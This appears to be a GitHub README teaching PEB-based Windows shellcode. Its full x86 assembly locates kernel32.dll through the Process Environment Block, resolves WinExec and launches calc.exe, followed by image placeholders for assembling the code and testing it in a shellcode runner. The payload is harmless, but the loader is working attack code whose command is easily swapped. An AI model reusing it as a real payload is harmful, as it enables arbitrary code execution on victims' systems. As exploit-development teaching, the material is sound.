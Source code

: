 ### PEB-Based Windows Shellcode
The classic way of making Windows shellcode which involves hardcoding the address of a specific function to run is not robust and reliable shellcode that could not run on every Windows versions.

Process Environment Block (PEB) is a structure that is used by the operating system. It contains information about the current OS so it could be used to determine and enumerate its current libraries address such as the well-known library kernel32.dll and ntdll.dll.

A demonstartion of PEB-Based Shellcode that enumerate through PEB structure to extract kernel32.dll address and using the that address to enumerate again for the function of interest which is WinExec to run calculator.

```asm
[BITS 32]

start:
		push eax
		push ebx
		push ecx
		push edx
		push esi
		push edi
		push ebp

		
		push ebp
		mov ebp, esp
		sub esp, 0x18

		; Pushing WinExec string with smuggling null-byte trick 
		xor esi, esi
		mov esi, 0x01646679
		sub esi, 0x01010101
		push esi
		push 0x456e6957
		mov [ebp - 0x4], esp 	   ; "WinExec\x00"

		; Finding kernel32.dll base address
		xor esi, esi
		mov ebx, [fs:0x30]              ; Store PEB address to ebx
		mov ebx, [ebx + 0x0c]           ; Store PEB_LDR_DATA address to ebx 
		mov ebx, [ebx + 0x14]           ; Store InMemoryOrderModuleList address to ebx 
		mov ebx, [ebx]                  ; Get ntdll.dll entry
		mov ebx, [ebx]                  ; Get kernel32.dll entry
		mov ebx, [ebx + 0x10]           ; Get kernel32.dll base address
		mov [ebp - 0x8], ebx            ; kernel32.dll base address is now stored in [ebp - 0x8] 

		; Finding WinExec Address
		; Relative Virtual Address (RVA)
		mov eax, [ebx + 0x3c]      ; RVA of PE signature
		add eax, ebx               ; Address of PE signature
		
		mov eax, [eax + 0x78]      ; RVA of Export Table
		add eax, ebx               ; Address of Export Table
		
		mov ecx, [eax + 0x24]      ; RVA of Ordinal Table
		add ecx, ebx               ; Address of Ordinal Table
		mov [ebp - 0x0c], ecx
		
		mov edi, [eax + 0x20]      ; RVA of Name Pointer Table
		add edi, ebx               ; Address of Name Pointer Table
		mov [ebp - 0x10], edi
		
		mov edx, [eax + 0x1c]      ; RVA of Address Table
		add edx, ebx               ; Address of Address Table
		mov [ebp - 0x14], edx
		
		mov edx, [eax + 0x14]      ; Number of exported functions
		xor eax, eax               ; counter = 0

.loop:
		mov edi, [ebp - 0x10]      ; esi = Address of Name Pointer Table
		mov esi, [ebp - 0x4]       ; edx = "WindExec\x00"
		xor ecx, ecx

		cld                        ; set DF=0 process strings from left to right
		mov edi, [edi + eax * 0x4] ; Entries in the Name Pointer Table are 4 bytes long

		add edi, ebx               ; esi = address of string = base address + RVA nth entry
		add cx, 0x8                ; Length of strings to compare
		repe cmpsb                 ; Compare the first 8 bytes of strings in esi and edi registers. ZF=1 if equal, ZF=0 if not

		jz start.found

		inc eax                    ; counter++
		cmp eax, edx               ; check if last function is reached
		jb start.loop              ; if not the last -> loop

		add esp, 0x26
		jmp start.end              ; if function is not found, jump to end

.found:
		; counter eax holds the position of WinExec
		mov ecx, [ebp - 0x0c]      ; Address of Ordinal Table
		mov edx, [ebp - 0x14]      ; Address of Address Table
		
		mov ax, [ecx + eax * 0x2]  ; ax = ordinal number = ecx + (counter * 2)
		mov eax, [edx + eax * 0x4] ; eax = RVA of function = edx + (ordinal * 4)
		add eax, ebx               ; eax = address of WinExec
		                           ; kernel32.dll base address + RVA of WinExec
		xor edx, edx
		push edx
		push 0x6578652e
		push 0x636c6163
		push 0x5c32336d
		push 0x65747379
		push 0x535c7377
		push 0x6f646e69
		push 0x575c3a43
		mov esi, esp     		   ; esi = "C:\Windows\System32\calc.exe"
		
		push 0x10          		   ; window state SW_SHOWDEFAULT
		push esi         		   ; "C:\Windows\System32\calc.exe"
		call eax         		   ; Call WinExec
		add esp, 0x46     		   ; clear the stack

.end:
		pop ebp
		pop edi
		pop esi
		pop edx
		pop ecx
		pop ebx
		pop eax
		ret

```

### Assembling it and get object file
![](img/assembling.png)
### Extract opcodes
![](img/opcodes.png)
### Paste it on shellcode tester code
![](img/shellcode_tester.png)
### Calculate will pop up after execute the executable
![](img/poc.png)
![](img/winxp.png)
